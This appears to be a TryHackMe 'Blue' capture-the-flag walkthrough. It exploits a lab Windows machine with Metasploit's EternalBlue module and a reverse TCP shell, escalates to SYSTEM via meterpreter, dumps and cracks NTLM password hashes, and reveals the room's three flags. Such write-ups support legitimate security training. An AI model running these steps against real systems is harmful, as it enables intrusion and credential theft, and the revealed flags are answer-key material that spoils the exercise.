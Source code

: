 # Blue



> 🔬🌐 [Blue](https://tryhackme.com/room/blue)
>
> *Deploy & hack into a Windows machine, leveraging common misconfigurations issues.*
>
> ![](.gitbook/assets/ezgif-2-016707f505.jpg)

## Recon

```bash
nmap -p1-1000 10.10.177.175
nmap -sV -p445 10.10.177.175
nmap --script smb-vuln-ms17-010 -p445 10.10.177.175
```

## Gain Access

```bash
msfconsole -q
```

```bash
search ms17-010
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/shell/reverse_tcp
set RHOSTS 10.10.177.175
set LHOST 10.18.65.48
# LHOST = tun0 VPN interface IP
run

background # or CTRL+Z
```

![](.gitbook/assets/image-20230316134157848.png)

## Escalate

- Payload use was `windows/x64/shell/reverse_tcp`, so convert the shell to a `meterpreter` shell.

```bash
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
sessions
set SESSION 2
run
```

![](.gitbook/assets/image-20230316141128868.png)

```bash
sessions 5
getuid
	Server username: NT AUTHORITY\SYSTEM
ps
```

- My process may not run as `SYSTEM` user. Select a `PID` (process ID) with the `NT AUTHORITY\SYSTEM` user, and migrate my process to that one. `e.g. ` 1284 - spoolsv.exe

```bash
migrate 1284
```

![](.gitbook/assets/image-20230316141809336.png)

## Cracking

```bash
hashdump

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

<Username>:<User ID>:<LM hash>:<NT hash>:<Comment>:<Home Dir>:
```

`aad3b435b51404eeaad3b435b51404ee` is the LM hash for ***no password***.

```bash
echo 'ffb43f0de35be4d9917ac0cc8ad57f8d' > jonhash.txt

john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt jonhash.txt
```

`ffb43f0de35be4d9917ac0cc8ad57f8d` is the NTLM hash for `alqfna22`.

Jon's credentials are `jon`:`alqfna22`.

![](.gitbook/assets/image-20230316142843628.png)

## Flags

- In the `meterpreter` session

```bash
cd C:\\
dir
cat flag1.txt
```

<details>
<summary>Reveal Flag1: 🚩</summary>



`flag{access_the_machine}`

![](.gitbook/assets/image-20230316143237356.png)

</details>



```bash
cd C:/Windows/System32/config
cat flag2.txt
```

<details>
<summary>Reveal Flag2: 🚩</summary>



`flag{sam_database_elevated_access}`

![](.gitbook/assets/image-20230316143502259.png)

</details>



```bash
cd C:\\Users\\
dir
cd Jon
cd Documents
cat flag3.txt
```

<details>
<summary>Reveal Flag3: 🚩</summary>



`flag{admin_documents_can_be_valuable}`

![](.gitbook/assets/image-20230316143807868.png)

</details>

------

